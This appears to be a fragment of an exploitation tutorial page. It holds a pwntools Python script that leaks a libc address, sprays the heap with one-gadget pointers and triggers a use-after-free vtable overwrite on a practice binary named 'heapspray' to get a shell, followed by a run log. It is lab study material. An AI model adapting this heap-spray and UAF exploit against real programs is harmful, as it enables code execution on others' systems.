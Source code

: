 ```nasm
```

source py
```python
from pwn import *
 
#context.log_level = 'debug'
 
startBrk =  0x602000
spraySize = 0x10000
sprayRange = 0x5000000
sprayCount = sprayRange /spraySize
targetOffset = 0x400
target = startBrk + sprayRange + targetOffset
 
p = process('./heapspray')
#sleep(20)
p.recvuntil("Printf() address : ")
libcAddr = p.recvuntil('\n')
libcAddr = int(libcAddr,16)
 
libcBase = libcAddr - 0x55800
oneGadget = libcBase + 0xf02a4
 
log.info('target : '+hex(target))
log.info('libcBase Addr : '+hex(libcBase))
log.info('oneGadget Addr : '+hex(oneGadget))
 
for i in xrange(sprayCount):
    size = spraySize - 0x10
    p.recvuntil("Input size:\n")
    p.send(p32(size))
 
    p.recvuntil("Input contents:\n")
    buf = p64(oneGadget) * (size // 8)
    buf += 'A' * (size-len(buf))
    p.send(buf)
 
    p.recvuntil("Will you keep typing?(No:0):\n")
    if i == sprayCount-1:
        print "Finished Heap spray!\n"
        p.sendline(str(0))
    else:
        p.sendline(str(1))
 
p.recvuntil("Create vtable\n")
p.send("Hello Heap spray & UAF")
 
p.recvuntil("Input size:\n")
p.send(p32(160))
 
p.recvuntil("Input contents:\n")
buf = p64(target) * (160 // 8)
buf += 'C' * (160-len(buf))
p.send(buf)
 
p.interactive()
```
```nasm
lazenca0x0@ubuntu:~/Exploit/11.Heap Spray$ python exploit.py
[+] Starting local process './heapspray': pid 25405
[*] target : 0x5602400
[*] libcBase Addr : 0x7fc228a49000
[*] oneGadget Addr : 0x7fc228b392a4
```